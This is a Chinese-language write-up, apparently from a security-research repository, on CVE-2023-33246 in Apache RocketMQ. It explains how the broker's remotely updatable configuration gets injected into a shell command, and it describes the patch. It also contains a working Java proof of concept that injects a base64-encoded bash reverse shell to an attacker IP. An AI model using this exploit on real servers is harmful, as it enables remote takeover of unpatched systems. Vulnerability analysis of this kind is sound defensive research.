






- [CVE-2023-33246 Apache RocketMQ 远程代码执行漏洞](#cve-2023-33246-apache-rocketmq-远程代码执行漏洞)
  - [影响版本](#影响版本)
  - [环境搭建](#环境搭建)
  - [原理分析](#原理分析)
    - [updateBrokerConfig](#updatebrokerconfig)
    - [mqfiltersrv](#mqfiltersrv)
  - [漏洞复现](#漏洞复现)
  - [补丁](#补丁)
  - [参考](#参考)

# CVE-2023-33246 Apache RocketMQ 远程代码执行漏洞
## 影响版本
<= 5.1.0
## 环境搭建
https://archive.apache.org/dist/rocketmq/5.1.0/rocketmq-all-5.1.0-bin-release.zip
## 原理分析
大致原理是由于默认监听在10911的broker可以通过远程的方式来修改配置,而某个配置会被拼接到shell命令中定时执行,导致可以远程注入命令.
### updateBrokerConfig
在`AdminBrokerProcessor#processRequest()`方法中是Borker用来处理接收到的请求,根据接受请求中的`RequestCode`进入对应的处理逻辑.  
可以看到在`RequestCode`为`UPDATE_BROKER_CONFIG`时就会进入更新配置的处理.  
  
处理的过程也很简单,将请求中body转为`properties`对象然后直接调用`this.brokerController.getConfiguration().update(properties);`更新即可.
  
### mqfiltersrv
而在RocketMQ broker中还有一个Filter服务,该服务30S就会运行一次,而运行的方式就是调用shell执行Rocketmq目录下的mqfiltersrv.exe或者mqfiltersrv.sh.  
  
可以看到在生成shell命令时会使用`getBrokerConfig`来获取Broker的一些配置并格式化在shell命令中.  
最后调用` FilterServerUtil#callShell`.直接调用`Runtime.exec()`了  
    
所以思路便是构造一个BrokerRequest来更新配置,修改注入到shell命令中的配置属性,进行命令注入即可.  
## 漏洞复现  
poc:  
```java
import java.util.Base64;
import java.util.Properties;
import org.apache.rocketmq.tools.admin.DefaultMQAdminExt;

public class poc {
    private static String getCmd(String ip, String port) {
        String cmd = "bash -i >& /dev/tcp/" + ip + "/" + port + " 0>&1";
        String cmdBase = Base64.getEncoder().encodeToString(cmd.getBytes());
        return "-c $@|sh . echo echo \"" + cmdBase + "\"|base64 -d|bash -i;";
    }

    public static void main(String[] args) throws Exception {
        String targetHost = "127.0.0.1";
        String targetPort = "10911";
        String shellHost = "172.21.165.206";
        String shellPort = "12345";
        String targetAddr = String.format("%s:%s",targetHost,targetPort);
        Properties props = new Properties();
        props.setProperty("rocketmqHome", getCmd(shellHost,shellPort));
        props.setProperty("filterServerNums", "1");
        DefaultMQAdminExt admin = new DefaultMQAdminExt();
        admin.setNamesrvAddr("0.0.0.0:12345");
        admin.start();
        admin.updateBrokerConfig(targetAddr, props);
        Properties brokerConfig = admin.getBrokerConfig(targetAddr);
        System.out.println(brokerConfig.getProperty("rocketmqHome"));
        System.out.println(brokerConfig.getProperty("filterServerNums"));
        admin.shutdown();
    }
}
```
## 补丁
1. 移除了Filetr Server模块.  
  
2. 在更新配置时,一些配置不能够动态修改.  

## 参考
https://github.com/vulhub/vulhub/blob/master/rocketmq/CVE-2023-33246/README.zh-cn.md